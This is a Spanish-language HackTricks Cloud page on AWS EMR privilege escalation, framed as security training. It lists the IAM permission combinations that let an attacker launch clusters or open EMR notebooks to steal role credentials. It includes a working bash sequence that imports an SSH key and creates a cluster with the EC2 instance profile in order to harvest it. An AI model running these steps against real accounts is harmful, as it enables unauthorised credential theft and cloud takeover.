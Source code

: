 # AWS - Escalada de privilegios en EMR

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* ¡Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## EMR

Más **información sobre EMR** en:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Un atacante con estos permisos puede **ejecutar un nuevo clúster EMR adjuntando roles de EC2** e intentar robar sus credenciales.\
Ten en cuenta que para hacer esto necesitarías **conocer alguna clave privada ssh importada en la cuenta** o importar una, y ser capaz de **abrir el puerto 22 en el nodo maestro** (podrías lograrlo con los atributos `EmrManagedMasterSecurityGroup` y/o `ServiceAccessSecurityGroup` dentro de `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Ten en cuenta cómo se especifica un **rol EMR** en `--service-role` y un **rol ec2** se especifica en `--ec2-attributes` dentro de `InstanceProfile`. Sin embargo, esta técnica solo permite robar las credenciales del rol EC2 (ya que te conectarás a través de ssh) pero no el Rol IAM de EMR.

**Impacto potencial:** Escalada de privilegios al rol de servicio EC2 especificado.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Con estos permisos, un atacante puede ir a la **consola de AWS**, crear un Notebook y acceder a él para robar el Rol IAM.

{% hint style="danger" %}
Incluso si adjuntas un rol IAM a la instancia del notebook, en mis pruebas noté que pude robar credenciales administradas por AWS y no credenciales relacionadas con el rol IAM.
{% endhint %}

**Impacto potencial:** Escalada de privilegios al rol administrado por AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Solo con este permiso, un atacante podrá acceder al **Jupyter Notebook y robar el rol IAM** asociado a él.\
La URL del notebook es `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Incluso si adjuntas un rol IAM a la instancia del notebook, en mis pruebas noté que pude robar credenciales administradas por AWS y no credenciales relacionadas con el rol IAM`.
{% endhint %}

**Impacto potencial:** Escalada de privilegios al rol administrado por AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* ¡Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
